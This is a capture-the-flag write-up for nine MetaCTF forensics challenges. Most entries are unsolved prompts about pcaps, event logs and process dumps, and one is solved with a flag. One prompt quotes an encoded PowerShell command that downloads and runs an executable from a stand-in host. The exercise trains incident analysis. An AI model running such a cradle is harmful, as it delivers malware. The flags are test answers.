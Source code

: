 # Forensics - 9 challenges
[Magic in the Hex (100 pts)](#magic-in-the-hex-100-pts)<br>
[My Logs Know What You Did (125 pts)](#my-logs-know-what-you-did-125-pts) *no soln*<br>
[I Just Wanna Run (150 pts)](#i-just-wanna-run-150-pts) *no soln*<br>
[Sharing Files and Passwords (150 pts)](#sharing-files-and-passwords-150-pts) *no soln*<br>
[Still Believe in Magic? (150 pts)](#still-believe-in-magic-150-pts) *no soln*<br>
[Et tu, Hacker? (200 pts)](#et-tu-hacker-200-pts) *no soln*<br>
[Easy as it (TCP) Streams (250 pts)](#easy-as-it-tcp-streams-250-pts) *no soln*<br>
[Pattern of Life (275 pts)](#pattern-of-life-275-pts) *no soln*<br>
[The Carver (475 pts)](#the-carver-475-pts) *no soln*<br>

## Magic in the Hex (100 pts)
> Sometimes in forensics, we run into files that have odd or unknown file extensions. In these cases, it's helpful to look at some of the file format signatures to figure out what they are. We use something called "magic bytes" which are the first few bytes of a file.
> 
> What is the ASCII representation of the magic bytes for a VMDK file? The flag format will be 3-4 letters (there are two correct answers).

Every file has a file header which tells the operating system what type of file it is. The file header is the first few bytes of the file, for example a GIF file:

```
$ file cat_hop.gif
cat_hop.gif: GIF image data, version 89a, 128 x 128

$ xxd cat_hop.gif
00000000: 4749 4638 3961 8000 8000 f700 0000 0000  GIF89a..........
```

Here we can see that the file header for GIF files is `GIF89a` and the magic bytes are `47 49 46 38 39 61`.

As we can see this [wikipedia page](https://en.wikipedia.org/wiki/List_of_file_signatures) tells us the same exact thing:

![Wikipedia page](https://i.imgur.com/7YmV7Kp.png)

We can then look for VMDK on the same page:

![Wikipedia page](https://i.imgur.com/0S2eGFp.png)

The magic bytes for VMDK are `4B 44 4D` or in ascii `KDM`.

<div align="center">

Flag:
```
KDM
```
[return to top](#top)</div>


## My Logs Know What You Did (125 pts)
> While investigating an incident, you identify a suspicious powershell command that was run on a compromised system ... can you figure out what it was doing?
> 
> `C:\Windows\System32\WindowsPowershell\v1.0\powershell.exe -noP -sta -w 1 -enc TmV3LU9iamVjdCBTeXN0ZW0uTmV0LldlYkNsaWVudCkuRG93bmxvYWRGaWxlKCdodHRwOi8vTWV0YUNURntzdXBlcl9zdXNfc3Q0Z2luZ19zaXRlX2QwdF9jMG19L19iYWQuZXhlJywnYmFkLmV4ZScpO1N0YXJ0LVByb2Nlc3MgJ2JhZC5leGUn`

<div align="center">

Flag:
```
NOT SOLVED YET
```
[return to top](#top)</div>


## I Just Wanna Run (150 pts)
> Our security team has identified evidence of ransomware deployment staging in the network. We’re trying to contain and remediate the malicious operator’s deployment staging and access before the operator successfully spreads and executes ransomware within the environment. We’ve recovered some of the operator’s [staging scripts and files](https://metaproblems.com/57fc877af48ad294da5e527eca2649a5/incident017.zip). Can you help identify which user account’s credentials the operator had compromised and is planning to use to execute the ransomware?
> 
> The flag format will be `METAL\xxxxx`

<div align="center">

Flag:
```
NOT SOLVED YET
```
[return to top](#top)</div>


## Sharing Files and Passwords (150 pts)
> FTP servers are made to share files, but if its communications are not encrypted, it might be sharing passwords as well. The password in [this pcap](https://metaproblems.com/2dd6443361555f266a8c2f54c50d01e9/ftp_challenge.pcapng) to get the flag

<div align="center">

Flag:
```
NOT SOLVED YET
```
[return to top](#top)</div>


## Still Believe in Magic? (150 pts)
> We found [an archive with a file in it](https://metaproblems.com/f03e38955de03e3d860d32dfd20b132f/magic.tar.gz), but there was no file extension so we're not sure what it is. Can you figure out what kind of file it is and then open it?

<div align="center">

Flag:
```
NOT SOLVED YET
```
[return to top](#top)</div>


## Et tu, Hacker? (200 pts)
> The law firm of William, Ian, Laura, and Lenny (WILL for short) has just been the victim of an attempted cyber attack. Someone tried to brute force the login for one of their employees. They have the [event logs](https://metaproblems.com/aa50297520b4159c83a31f5fe8f9cdeb/bruteforce.evtx) of the incident, and were wondering if you could tell them which user was targeted. Flag is in the form of MetaCTF{}.

<div align="center">

Flag:
```
NOT SOLVED YET
```
[return to top](#top)</div>


## Easy as it (TCP) Streams (250 pts)
> Caleb was designing a problem for MetaCTF where the flag would be in the telnet plaintext. Unfortunately, he accidentally stopped the [packet capture](https://metaproblems.com/46dc63e7dbfa1ca757a459063dff0959/easy_as_it_streams.pcapng) right before the flag was supposed to be revealed. Can you still find the flag? Note: You'll need to decrypt in CyberChef rather than using a command line utility. 

<div align="center">

Flag:
```
NOT SOLVED YET
```
[return to top](#top)</div>


## Pattern of Life (275 pts)
> Hackers have breached our network. We know they are there, hiding in the shadows as users continue to browse the web like normal. As a threat hunter, your job is to constantly be searching our environment for any signs of malicious behavior.
> 
> Today you just received [a packet capture (pcap)](https://static.metaproblems.com/2a641db1c19526efb7e0c99004ccba0d/pattern_of_life.pcapng) from a user's workstation. We think that an attacker may have compromised the user's machine and that the computer is beaconing out to their command and control (C2) server. Based on some other logs, we also think the attacker was *not* using a fully encrypted protocol and also did not put much care into making their C2 server look like a normal website. Your task? We'd like you to submit the port number that the C2 server is listening on in the form of `MetaCTF{portnumber}` as the flag.

<div align="center">

Flag:
```
NOT SOLVED YET
```
[return to top](#top)</div>


## The Carver (475 pts)
> Okay the more we look into this adversary in our networks, the more we realize we need to step up our analysis game. Additionally, our company's senior management are demanding we provide them more details. Are we hacked? What's the damage? What did the hacker do on the compromised machines?
> 
> Let's dive into that last question some more. We've taken [a process dump of the infected process](https://metaproblems.com/f375cac9432877ac046c0d2a2a39b156/the_carver.7z) for you. It seems that the attacker tasked their beacon to perform 4 different actions on the host. If you can extract out their payloads, then you'll find a special mark the attacker left behind (it is surrounded by `MetaCTF{}` so it will be obvious when you find it). While it won't be easy, we have faith that you're up to the task!

<div align="center">

Flag:
```
NOT SOLVED YET
```
[return to top](#top)</div>

